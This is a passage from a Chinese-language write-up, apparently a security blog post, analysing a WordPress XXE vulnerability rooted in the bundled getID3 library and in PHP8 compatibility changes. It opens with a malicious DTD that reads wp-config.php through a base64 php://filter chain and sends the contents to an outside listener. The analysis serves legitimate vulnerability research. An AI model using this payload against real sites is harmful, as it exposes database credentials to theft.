xxe.dtd

```
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://docker.for.mac.localhost:8092/?%data;'>">

```

POC 如下:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213841-60163e96-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213841-60163e96-a9b9-1.png)

结果:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213825-567e1d5e-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213825-567e1d5e-a9b9-1.png)

0X5 再看漏洞成因
----------

### 0x5.1 菜鸡碎碎念

其实我觉得，上面那些枯燥分析过程没必要去看，看成因然后自己去分析，出现问题再来看我的分析过程比对就可以了。给出我对这个漏洞的具体成因的理解，其实才是最重要的。

### 0x5.2 成因

首先问题出现在了 WP 内置的第三方库:[ID3](https://github.com/nass600/getID3)

emmm, 然后，直接搜索 github，发现确实是这个库，

[https://github.com/nass600/getID3/blob/master/getid3/getid3.lib.php](https://github.com/nass600/getID3/blob/master/getid3/getid3.lib.php) 522 行，感觉也很离谱, 如果 libxml<2.9 的话，这个函数就会一样有 XXE 漏洞。

```
static function XML2array($XMLstring) {
        if (function_exists('simplexml_load_string')) {
            if (function_exists('get_object_vars')) {
                $XMLobject = simplexml_load_string($XMLstring);
                return self::SimpleXMLelement2array($XMLobject);
            }
        }
        return false;
    }

```

然后我们再看 WordPress 中的这个函数，是做了 XXE 防护的，原来在 WP3.9.2 的时候确实因为这个库导致过一次 XXE。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213931-7ddffb9c-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213931-7ddffb9c-a9b9-1.png)

emm，当时做了修复:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213955-8c85e3be-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213955-8c85e3be-a9b9-1.png)

本来这样就蛮安全的了，为什么 WP 还要改呢？ 这个问题就出现在了 WP 要向 PHP8 兼容
